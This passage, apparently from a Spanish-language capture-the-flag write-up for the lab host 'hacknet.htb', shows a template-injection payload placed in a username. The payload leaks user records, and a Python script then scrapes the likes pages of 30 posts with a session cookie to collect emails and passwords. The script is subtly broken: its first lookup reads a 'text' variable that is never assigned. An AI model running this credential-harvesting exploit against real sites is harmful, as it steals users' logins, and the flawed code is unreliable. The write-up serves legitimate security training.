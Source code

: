 Para obtener ahora los campos y valores asociados al objeto de lista, debemos cambiar nustro nombre de usuario a: 
```python
{{ users.values}}
```
Volvemos a realizar el mismo procedimiento que hicimos anteriormente y analizamos el codigo fuente de la peticion GET
* BOOM! tenemos una lista de usuarios con credenciales

 {{< figure
 src="8.png"
 >}}

 * Debemos tener en cuenta que: la lista de usuarios que se muestra aquí, solo incluye la lista de Me gusta actual, es decir, los usuarios a quienes les gustó esta publicacion especifica
 * Me interesa obtener los likes de todas las publicaciones, para asi obtener sus credenciales. Este es un script en python que automatiza este proceso.
 ```python
#Agregar sus cokies al script antes de ejecutar
import re
import requests
import html

url = "http://hacknet.htb"
headers = {
    'Cookie': "csrftoken= .....; sessionid= ....."
}
all_users = set()
for i in range(1, 31):

    requests.get(f"{url}/like/{i}", headers=headers)
    img_titles = re.findall(r'<img [^>]*title="([^"]*)"', text)
    if not img_titles:
        continue
    last_title = html.unescape(img_titles[-1])

    if "<QuerySet" not in last_title:
        requests.get(f"{url}/like/{i}", headers=headers)
        text = requests.get(f"{url}/likes/{i}", headers=headers).text
        img_titles = re.findall(r'<img [^>]*title="([^"]*)"', text)
        if img_titles:
            last_title = html.unescape(img_titles[-1])

    emails = re.findall(r"'email': '([^']*)'", last_title)
    passwords = re.findall(r"'password': '([^']*)'", last_title)

    for email, p in zip(emails, passwords):
        username = email.split('@')[0]  
        all_users.add(f"{username}:{p}")

for item in all_users:
    print(item)
 ```
